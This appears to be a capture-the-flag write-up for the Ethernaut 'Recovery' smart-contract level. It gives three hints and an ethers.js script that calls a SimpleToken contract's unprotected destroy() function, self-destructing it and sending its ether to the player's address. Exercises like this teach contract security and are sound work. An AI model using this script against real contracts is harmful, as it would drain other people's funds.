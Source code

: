 # 17 - Recovery

### Hints

<details>

<summary>Hint One</summary>

After generating the level instance, take a look at the instance address in a block explorer such as Etherscan. This is the `Recovery` contract. Are there any interesting internal transactions?

</details>

<details>

<summary>Hint Two</summary>

You can look at the “Contract Creation” internal transaction on Etherscan to locate the address of the new `SimpleToken` instance deployed by the level. Now your challenge is to drain this contract of ether.

</details>

<details>

<summary>Hint Three</summary>

The `SimpleToken` contract contains a strange global function you haven’t seen in other challenges.

</details>

### Scripted Solution

```javascript
const ethers = require('ethers')
const fs = require('fs')
require('dotenv').config({ path: './.env' })

/**
 * Initialize Ethers objects needed to interact with the blockchain and
 * contract.
 */
async function setup(contractName) {
  // Create provider - a read-only abstraction to access blockchain data
  const provider = new ethers.providers.InfuraProvider(process.env.NETWORK)
  // Create player wallet
  const playerWallet = new ethers.Wallet(process.env.PRIVATE_KEY)
  // Create player wallet signer - an abstraction of an Ethereum account
  const playerWalletSigner = await playerWallet.connect(provider)
  // Create contract instance - an abstraction of the deployed contract code
  const contractAbi = fs.readFileSync(`./${contractName}.abi`, 'utf8')
  const contract = new ethers.Contract(
    process.env.CONTRACT_ADDRESS,
    contractAbi,
    playerWalletSigner
  )

  return {
    provider,
    playerAddress: process.env.PLAYER_ADDRESS,
    playerWallet,
    playerWalletSigner,
    contract
  }
}

/**
 * Run contract exploit.
 */
async function main() {
  // Get Ethers objects needed to interact with the blockchain and contract
  const { playerAddress, contract: simpleTokenContract } = await setup(
    'SimpleToken'
  )

  // Get token name at contract address
  const tokenName = await simpleTokenContract.name()
  console.log(`Contract's token name: ${tokenName}.`)

  // Call `selfdestruct` on contract via `destroy` function, sending ether to player account
  console.log('Self destructing contract...')
  const selfDestruct = await simpleTokenContract.destroy(playerAddress)
  await selfDestruct.wait(1)
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```
